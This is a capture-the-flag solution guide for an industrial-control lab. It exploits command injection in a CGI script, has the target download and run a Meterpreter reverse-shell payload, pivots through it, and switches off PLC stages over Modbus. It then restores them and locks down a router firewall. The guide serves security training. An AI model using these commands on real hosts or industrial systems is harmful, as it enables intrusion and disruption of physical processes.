# Made in America

_Solution Guide_

## Overview

This is an infinity-style challenge—a random solution is generated during challenge deployment. This solution guide covers the walk-through and is organized by submission question.

The status of questions 2 and 3 can be checked by visiting `https://challenge.us` from a gamespace resource.  It may take up to 60 seconds to receive the grading results. 

## Question 1

_View the HMI web console. What is the name of the ninth stage? (E.g., the name of the first stage is Circuit Board Printing)_

Hack your way into the trusted network and view the HMI web console at `http://10.3.3.7:80/scada`.

1. Scan the HMI Viewer with a basic nmap scan.
`nmap 10.5.5.3`



2. Notice TCP/80 is open. Browse to http://10.5.5.3.



3. Feel free to inspect the HTML. There are no important links or references. We must try to discover if there are any in a different manner. Launch dirbuster.

4. Set the Target URL to `http://10.5.5.3:80`, set the File With List Of Dirs/Files to `/usr/share/wordlists/dirbuster/directory-list-1.0.txt`, and click 'Start'.



5. In under a minute, you should be able to click "Results - List View: Dirs: 1 Files:0" as dirbuster received a 403 on the /cgi-bin/ directory.



6. Researching /cgi-bin should indicate that commonly .cgi files reside here. We will use dirbuster again to search for .cgi files. Click 'Stop' and 'Back'. Using the same wordlist as before, change the File Extension to .cgi, set the Dir To Start With to /cgi-bin/, unselect Brute Force Dirs, and click Start.



7. Within 2 minutes, you should see "Results - List View: Dirs: 0 Files: 1." In that tab, you should notice /cgi-bin/remote.cgi.



8. Browse to `http://10.5.5.3/cgi-bin/remote.cgi` and notice that nothing is returned. Researching .cgi files and the name of remote should lead competitors to attempt a remote command injection.



9. Browse to `http://10.5.5.3/cgi-bin/remote.cgi?whoami` and notice that the returned output is  `nobody`. We are able to perform command injection!

10. We will attempt to have the HMI-viewer download a reverse TCP Meterpreter payload as an .elf and execute the binary. On Kali, ensure you know your Kali's IPv4 address. Run the command `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOURKALIIP LPORT=4444 -f elf > shell.elf`.



11. We will now serve up a web server to have the HMI-Viewer download shell.elf. Run the command `sudo python3 -m http.server 80`.



12. Before we execute shell.elf on HMI-Viewer, we must prepare a TCP handler. Launch `msfconsole`, `use exploit/multi/handler`, `set payload linux/x64/meterpreter/reverse_tcp`, `set LPORT 4444`, `set LHOST YOURKALIIP`, and `run`.



13. Competitors are able to have rwx permission on the /tmp directory of the HMI-Viewer. Enter this string in your browser to download shell.elf in the HMI-Viewer's /tmp directory: `http://10.5.5.3/cgi-bin/remote.cgi?wget+YOURKALIIP/shell.elf+-O+/tmp/shell.elf`



14. Next, we must change the permissions to shell.elf. Enter the following string in your browser to change shell.elf's permissions: `http://10.5.5.3/cgi-bin/remote.cgi?chmod+777+/tmp/shell.elf`



15. Finally, we must execute shell.elf on HMI-Viewer. Enter the following string in your browser to execute it: `http://10.5.5.3/cgi-bin/remote.cgi?/tmp/shell.elf`



16. You should now see an active Meterpreter session on your handler. If not, please re-check your steps.



17. In Meterpreter, the goal is to pivot through HMI-Viewer. Send the current session to the background with the command `bg`. Run the following commands in Metasploit to setup a SOCKS4a Proxy through HMI-Viewer: `route add 10.3.3.0/24 1` (as long as your session 1 is still active, otherwise replace with your current Meterpreter session number), `use auxiliary/server/socks_proxy`, `set VERSION 4a`, and `run`.



18. We must set up Firefox to use this proxy. Open Firefox and find the Proxy Connection Settings, select Manual Proxy Configuration, leave HTTP and HTTPS Proxy blank, set SOCKS Host to 127.0.0.1, Port 1080, and ensure SOCKS v4 is selected (NOT SOCKS v5).



19. We can now browse to http://10.3.3.7/scada and login with the credentials given in the lab guide.



20. You should now be able to see the 10 stages of the laptop factory. Now you will be able to answer question 1. Congrats!

## Question 2

_What is Token 2 provided from https://challenge.us?_

Turn off the PLC power for Stages 2 through 10. Check the status of this task at `https://challenge.us` from a gamespace resource.

1. To turn off the PLC values, we must first be able to reach the PLC on TCP/502 (modbus). In Metasploit, run the command `route add 10.3.2.0 255.255.255.0 1`.



2. We must install mbpoll to poll and alter PLC values. Open a new terminal window and run the command `sudo apt install mbpoll`. Ensure you enter `y` to install.



3. On your Kali machine, you must route traffic through this new SOCKS4a proxy. Edit the final line in `/etc/proxychains4.conf` to state socks4 127.0.0.1 1080.



4. We will now use our previous socks4a proxy (with proxychains) to run mbpoll though our established pivot. In a new tab, run the command `proxychains mbpoll -r 1 -c 15 -1 10.3.2.5` to view the number of Completed for each stage (11 - 15 will be blank, of course). The mbpoll main page informs us that Discrete output (coil) data types require `-t 0` to be added as well. The following command will turn off Stage 2 `proxychains mbpoll -r 2 -t 0 10.3.2.5 0`. Replace the 2 with 3 to turn off Stage 3. And so on... You can also use a for loop to quickly turn all nine stages off.

5. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are shut down and turned off.



6. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been completed. Feel free to run the grading check after a minute has passed to confirm that you have completed the task. You are now able to answer question 2. Congrats! 
 
## Question 3

_What is Token 3 provided from https://challenge.us?_

Restore all PLC power and ensure that no unauthorized devices can manipulate PLC values. Only the HMI Server is authorized to do this! Do not lock the HMI server out. Check the status of this task at `https://challenge.us` from a gamespace resource.

1. Before we lock ourselves out, because HMI-Viewer is NOT authorized to reach the PLC, we must set the PLC values back in their original (on) state. The command `proxychains mbpoll -r 2 -t 0 10.3.2.5 1` will turn Stage 2 back on. `proxychains mbpoll -r 3 -t 0 10.3.2.5 1` will turn on Stage 3, and so on and so forth. Turn on Stages 2 through 10. You can also use a for loop to quickly turn all nine stages on.




2. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are turned on.

3. SSH into the router with the command `ssh user@10.5.5.1` to ensure only the HMI Server can reach the PLC over TCP/502 (modbus). The password for the `user` account was given to you alongside Token 2, in question 2.



4. In VyOS, run the following commands to ensure only the HMI Server can reach the PLC over TCP/502: `conf`, `show firewall`, `del firewall name viewer-to-hmi rule 2`, `set firewall name plc-to-hmi description 'plc-net to hmi'`, `set firewall name plc-to-hmi default-action drop`, `set firewall name plc-to-hmi rule 1 description 'allow hmi to plc'`, `set firewall name plc-to-hmi rule 1 source address 10.3.3.7`, `set firewall name plc-to-hmi rule 1 destination address 10.3.2.5`, `set firewall name plc-to-hmi rule 1 destination port 502`, `set firewall name plc-to-hmi rule 1 protocol tcp`, `set interface ethernet eth1 firewall in name plc-to-hmi`, `set firewall name plc-to-hmi rule 1 action accept`, `commit`, `save`, and `exit`.

5. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been complete. Feel free to run the grading check after a minute has passed to confirm that you have completed the task. You are now able to answer question 3. Congrats!
